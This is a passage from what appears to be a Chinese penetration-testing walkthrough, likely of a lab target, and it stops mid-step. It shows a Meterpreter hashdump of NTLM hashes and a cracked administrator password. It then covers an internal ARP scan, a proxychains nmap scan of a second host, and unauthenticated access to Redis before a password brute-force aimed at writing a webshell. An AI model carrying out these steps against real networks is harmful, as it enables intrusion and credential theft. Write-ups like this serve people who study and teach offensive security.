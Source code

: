 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CbsAVE6xvdIIJY1cgw4C4dBmDLXibKE3pYHA1VicPwZBYtXueiazylbRRA/640?wx_fmt=png)

为了方便我把 shell 弹到了 msf：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7ClzTXmPGmbPJv8VfMa7QODCG270agXiat6bu261oeSg2tDdkZlRicGZibQ/640?wx_fmt=png)

然后抓到了 hash：  

```
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:de935c6087ec367d3ef786915a4edcce:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
hacker:1003:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
mysql:1002:aad3b435b51404eeaad3b435b51404ee:291376866817cf2ccfe198308e5f925b:::
www:1001:aad3b435b51404eeaad3b435b51404ee:894f353e870620b186a9a46ce56ac8f1:::
```

通过解密得到了 administrator 的密码：QWEasd444

**内网横向移动 - Redis 写 Webshell**

通过 msf 对内网进行扫描 arp 存活发现了几台机器：（之前没扫描出来应该是有防火墙）

```
post/windows/gather/arp_scanner
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CzdfX6oLIUupLqIRVPnicA7MbxHRdXicC4odr3tTCOVCR7vDKKQhgJhWw/640?wx_fmt=png)

192.168.59.1 就不用看了是网关，192.168.59.4 就是内网另一台主机！

随后 proxychains + nmap 对 192.168.59.4  进行扫描探测端口服务：

```
proxychains nmap -sT -sV -Pn -n -p22,80,139,135,445,3306,1433,6379  192.168.59.4
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CMsZFkicuG8fPicP4HicGKTrfFnlHg3LttCFUMcpW9CV4kNSXj3y4GF8mw/640?wx_fmt=png)

发现开放的端口有：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CZoeduG1hYcJQ4QWF6N2H3jKsdMbTcEdCexIYZs35VB1TUjj75ZWKQw/640?wx_fmt=png)

web 页面的话倒是没啥：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CSQCYwtM0ibl8jAld9uO8o3ibRyicOE5QkJYaNsoD8J59PXS5WQEHsJ3jg/640?wx_fmt=png)

看了看扫描出来 6379 应该是 redis 相关漏洞！

通过尝试 redis 未授权发现连接成功！

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CRBVxZ0yEyPT7XaLoXjKGDJplxSW1Gl91ZzoGIAFPUrHF8aWUg2cadw/640?wx_fmt=png)

但是查看信息发现出错，应该是密码问题：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7C6GWAcKtrpJxuEm7dhkEsEuTf2I0j3qzHYAuaVGwr1sdOFoiaib3cictWw/640?wx_fmt=png)

后通过 msf redis 爆破模块爆破出了密码：
